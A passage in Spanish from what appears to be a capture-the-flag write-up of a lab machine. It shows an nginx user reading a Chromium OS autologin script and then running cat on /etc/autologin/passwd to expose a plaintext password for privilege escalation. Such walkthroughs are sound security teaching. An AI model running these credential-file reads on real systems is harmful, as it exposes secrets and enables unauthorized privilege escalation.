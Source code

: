 urante la exploración del directorio /opt, se identificó un archivo interesante llamado autologin.conf.orig. Al revisar su contenido, se observó un script utilizado por Chromium OS para realizar inicio de sesión automático en el arranque del sistema. El script indica que lee la contraseña desde un archivo ubicado en /mnt/stateful_partition/etc/autologin/passwd o /etc/autologin/passwd, y luego la inyecta en el prompt de inicio de sesión. Esta información sugiere la posibilidad de que exista una contraseña almacenada en texto claro en alguno de estos directorios, lo que podría facilitar la obtención de credenciales de usuarios con mayores privilegios.
```bash
nginx@spectra ~ $ cd /opt
nginx@spectra /opt $ ls -l
total 36
drwxr-xr-x 2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r-- 1 root root  978 Feb  3  2021 autologin.conf.orig
drwxr-xr-x 2 root root 4096 Jan 15  2021 broadcom
drwxr-xr-x 2 root root 4096 Jan 15  2021 displaylink
drwxr-xr-x 2 root root 4096 Jan 15  2021 eeti
drwxr-xr-x 5 root root 4096 Jan 15  2021 google
drwxr-xr-x 6 root root 4096 Feb  2  2021 neverware
drwxr-xr-x 5 root root 4096 Jan 15  2021 tpm1
drwxr-xr-x 5 root root 4096 Jan 15  2021 tpm2
nginx@spectra /opt $ cat autologin.conf.orig 
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

Siguiendo la ruta indicada en el archivo autologin.conf.orig, se verificó la existencia del archivo /etc/autologin/passwd, el cual efectivamente estaba presente. Al leer su contenido, se encontró la contraseña SummerHereWeCome!! almacenada en texto claro. Este hallazgo es crítico, ya que puede ser utilizado para intentar el acceso con otros usuarios del sistema y escalar privilegios.
```bash
nginx@spectra /opt $ ls /etc/autologin
passwd
nginx@spectra /opt $ cat /etc/autologin/passwd
SummerHereWeCome!!
```
